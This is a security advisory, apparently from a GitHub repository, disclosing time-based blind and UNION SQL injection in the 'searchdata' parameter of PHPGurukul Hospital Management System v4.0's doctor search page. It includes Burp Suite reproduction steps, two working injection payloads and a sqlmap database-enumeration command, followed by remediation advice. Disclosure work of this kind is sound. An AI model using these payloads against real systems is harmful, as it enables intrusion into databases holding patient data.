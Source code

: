 
# Union & Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/search.php`                                              |
| **Affected Parameter**| `searchdata`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind and Union SQL injection vulnerability exists in the `searchdata` parameter  of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering  with union and time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page and autheticate, then search anything on search bar which redirects to `search.php`.
- Fill any data you wish on search bar then turn on intercept. 

```
http://192.168.137.89/hospital/hms/doctor/search.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `searchdata` field to identify injection points.
- Save the modified HTTP request as `sql-doctor-search` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `searchdata` field to test time-based and Union SQL injection manually:

```sql
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchdata=sqliTtest' AND (SELECT 1999 FROM (SELECT(SLEEP(5)))vfwq) AND 'QENh'='QENh&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: searchdata=sqliTtest' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176707a71,0x61474b7357686d67784f74486a517671786974734f734949635872704967634564416370754d4d4e,0x716b7a7671)-- -&search=

```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql-doctor-search --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/6.png)


---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
